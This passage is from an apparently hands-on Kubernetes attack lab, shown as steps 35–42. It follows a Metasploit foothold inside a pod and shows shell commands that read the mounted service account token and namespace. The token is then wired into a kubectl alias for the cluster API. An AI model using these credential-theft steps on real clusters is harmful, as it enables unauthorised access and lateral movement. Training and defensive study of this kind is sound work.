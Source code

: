 35. Now let's go back to your terminal where you have the Metasploit console running.  We'll also need a service account token. Let's see if it's been mounted into the pod.

    ```shell
    mount | grep kubernetes
    ```

36. We can use a quick `awk` trick to parse this directory. This may be one of the only two `awk` tricks you'll ever need.

    ```shell
    mount | grep kubernetes | awk '{print $3}'
    ```

37. Let's store that directory in a shell variable.

    ```shell
    d=`mount | grep kubernetes | awk '{print $3}'`
    ```

38. Now we'll use that directory variable. List that directory:

    ```shell
    ls $d
    ```

39. Find out what namespace you're in by looking at that namespace file:

    ```shell
    cat $d/namespace
    ```

40. Let's put that namespace in a shell variable too.

    ```shell
    export ns=`cat $d/namespace`
    ```

41. Set up a `kubectl` command alias to make your `kubectl` commands easier, building it from the contents of that service account directory (_Note: Instead of using an IP address for the server, we're using the DNS entry that Kubernetes always creates._):

    ```shell
    alias kubectl="`pwd`/kubectl --server=https://kubernetes.default.svc.cluster.local:443 --token=`cat $d/token` --certificate-authority=$d/ca.crt -n $ns"
    ```

42. Look at that command one more time – there are a few embedded commands in there. Here are two examples:

    ```shell
    `pwd`/kubectl
    ```

    embeds `pwd` (print working directory) to give us a full pathname of our `kubectl` binary; and

    ```shell
    --token=`cat $dir/token`
    ```
